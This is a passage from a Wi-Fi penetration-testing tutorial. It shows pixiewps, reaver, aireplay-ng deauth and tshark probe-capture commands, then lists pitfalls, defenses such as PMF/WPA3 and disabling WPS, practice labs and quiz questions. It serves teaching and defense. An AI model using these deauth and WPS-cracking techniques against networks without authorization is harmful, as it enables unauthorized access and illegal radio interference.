pixiewps --pke .. --pkr .. --e-hash1 .. --e-hash2 .. --authkey .. --e-nonce ..
```

**Client-side**

```bash
sudo tshark -i wlan0mon -Y "wlan.fc.type_subtype==0x04" -T fields -e wlan.sa -e wlan_mgt.ssid  # probes/PNL
```

**Fixes:** PMF required (`ieee80211w=2`) or WPA3 (kills deauth); **disable WPS** (kills Reaver/Pixie); HTTPS/HSTS + OWE and MAC randomization (blunt client-side).

---

## Part 12: Common Pitfalls

- **Injecting while channel-hopping.** aireplay-ng/reaver must be pinned to the AP's channel (`-c`), or frames land nowhere. Lock the channel first.
- **Broadcast deauth expecting reliability.** Many modern clients ignore broadcast deauth; use targeted `-c <client>` for handshake capture.
- **Assuming WPS is on.** Always `wash` first — most current routers ship WPS off or locked. No WPS advertised = skip Reaver entirely.
- **Trusting lockout to stop everything.** `Lck = Yes` slows online brute force but Pixie-Dust needs one exchange — a locked router can still fall to `-K 1` if the chipset RNG is weak.
- **Expecting Pixie-Dust to always work.** It only works on vulnerable chipsets/RNGs; on a modern router it fails and you're back to slow online brute or nothing.
- **Deauthing on a PMF/WPA3 network and blaming the tool.** If deauth "does nothing," check for 802.11w — that's the defense working, not a broken card. Verify injection separately with `aireplay-ng --test`.
- **Running any of this out of scope.** Deauth is FCC-fineable interference; WPS brute is unauthorized access. Own the gear or have written authorization.
- **Thinking a strong passphrase is enough.** It defeats Chapters 2–3, but WPS hands over that same passphrase and deauth/client-side route around it. Defense is PMF/WPA3 + WPS off + client hardening.

---

## Part 13: Practice Labs & Resources

Train each skill on your own gear or sanctioned platforms only:

- **Your own router + Kali (primary).** Toggle WPS on/off in the router admin panel and watch it appear/disappear in `wash`; run the full Part 7 flow (Pixie-Dust, then online brute, then Bully) against your own AP; toggle PMF (`ieee80211w`) and confirm your deauths stop landing.
- **TryHackMe — "Wifi Hacking 101" and wireless rooms.** Guided deauth + handshake and WPS practice against safe targets.
- **Hack The Box Academy — "Wi-Fi Penetration Testing" module.** Structured coverage of deauth, WPS, and client attacks.
- **Wireless CTF pcaps (VulnHub, past DEF CON/regional CTFs).** Practice spotting a deauth (`wlan.fc.type_subtype==0x0c`) preceding a handshake, extracting SSIDs from probe requests, and cracking the captured handshake offline — no radio required.
- **pixiewps & reaver documentation / the original Bongard "Pixie-Dust" talk.** The authoritative explanation of the weak-nonce attack and the exact `--pke/--pkr/--e-hash` values, for when you want to run pixiewps by hand.
- **aircrack-ng wiki (deauth, injection test).** Reference for `aireplay-ng` flags, the `--test` injection check, and adapter/driver quirks.
- **Kismet (blue team).** Run it against your own lab while you attack it — learn to recognize your own deauth flood, WPS registrar attempts, and probe-request harvesting so you can spot them on a defensive engagement.

### Practice questions

1. You send `aireplay-ng --deauth 0 -a <BSSID>` at a network and clients stay connected, but `aireplay-ng --test` shows injection works. Give the most likely protocol-level reason and the exact AP setting responsible.
2. `wash` shows a target AP with `Lck = Yes`. Explain why online Reaver brute force will struggle but `reaver -K 1` might still succeed in seconds — what property of the router decides it?
3. Walk through why an 8-digit WPS PIN provides at most ~11,000 guesses, not 10⁸. Identify each design choice that removes entropy.
4. Contrast what you obtain from (a) cracking a captured WPA2 handshake, (b) a successful WPS PIN attack, and (c) Pixie-Dust — in terms of what secret you end up with and how long each typically takes.
5. A modern iPhone walks past your monitor-mode capture. Explain what you will and won't see in its probe requests today versus five years ago, and which two OS-level defenses are responsible.
